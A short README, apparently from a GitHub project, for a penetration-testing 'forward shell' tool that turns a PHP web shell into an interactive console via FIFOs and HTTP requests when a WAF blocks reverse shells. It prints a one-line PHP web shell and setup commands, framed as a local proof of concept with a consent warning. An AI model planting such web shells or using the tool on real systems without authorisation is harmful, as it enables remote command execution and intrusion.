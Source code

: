 # Forward Shell

When pentesting, we may encounter difficulties establishing Reverse Shell connections due to WAFs being present. 
Let's say we have the following PHP file on the Web Application we are trying to hack:

```php
  <?php system($_GET['cmd']); ?>
```

We can execute commands as the server, but this webshell is NOT a tty. It's not a full interactive console. 
If for some reason we couldn't get a Reverse Shell, we can get a Forward Shell with this script by making use of FIFOs and HTTP requests.

## Important

This is just a POC running in local with containers. If u want to use it in a real scenario, please do it with consent and always stay within the law.

## Execution 

```bash
git clone https://github.com/0x49414E/forwardShell.py
docker build .
docker run -dit <img>
python3.9 main.py
```
